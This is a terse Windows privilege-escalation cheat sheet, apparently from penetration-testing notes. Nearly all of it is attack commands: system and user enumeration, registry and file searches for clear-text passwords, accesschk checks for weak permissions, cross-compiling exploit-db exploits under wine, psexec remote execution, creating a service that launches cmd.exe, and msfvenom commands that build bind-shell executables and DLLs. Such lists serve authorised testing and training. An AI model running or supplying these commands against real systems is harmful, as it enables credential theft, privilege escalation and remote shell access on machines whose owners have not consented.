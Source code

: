 				OS and service pack

-- systeminfo | findstr /B /C:”OS Name” /C:”OS Version”
-- ver
    
				System name

-- hostname
    
				Who are you?

--  whoami
-- echo %username%
    
				Finding other users
				
-- net users
-- net user username
    
				Clear-text passwords
				
- -  c:\unattend.txt  
--   c:\sysprep.ini - [Clear Text] 
- -  c:\sysprep\sysprep.xml - [Base64] 
- -  findstr /si password *.txt | *.xml | *.ini
--   reg query HKLM /s | findstr /i password > temp.txt
--   reg query HKCU /s | findstr /i password > temp.txt
- -  reg query HKLM /f password /t REG_SZ /s
--   reg query HKCU /f password /t REG_SZ /s
    
				Finding weak directory permissions

- -  accesschk.exe /accepteula 
- -  accesschk.exe -uwdqs users c:\
--  accesschk.exe -uwdqs “Authenticated Users” c:\
    
				Finding weak file permissions

-- accesschk.exe -uwqs users c:\*.*
--  accesschk.exe -uwqs “Authenticated Users” c:\*.*
--  cacls "c:\Program Files" /T | findstr Users
    
				Weak Service permissions

--   accesschk.exe –uwcqv *
    
				Cross compile exploits	
				
-- cp /usr/share/exploitdb/platforms/windows/local/<exploit>.c /tmp/
-- cd /root/.wine/drive_c/MinGW/bin
-- wine gcc –o w00t.exe /tmp/<exploit>.c -l lib

				psexec
	
--  psexec.py <user>@<host> <cmd>
--  psexec.exe \\<host> <cmd>
   
				Services

-- sc create <servicename> binpath= “c:\windows\system32\cmd.exe /k <pathtobinaryexecutable>” DisplayName= <displayname>
    
--  sc start <servicename>
    
				Creating bind shells

--   msfvenom -p windows/shell_bind_tcp -f exe -o <Filename.exe> LPORT=<BindPort>
    
--  msfvenom -p windows/shell_bind_tcp -f dll -o <Filename.dll> LPORT=<BindPort>
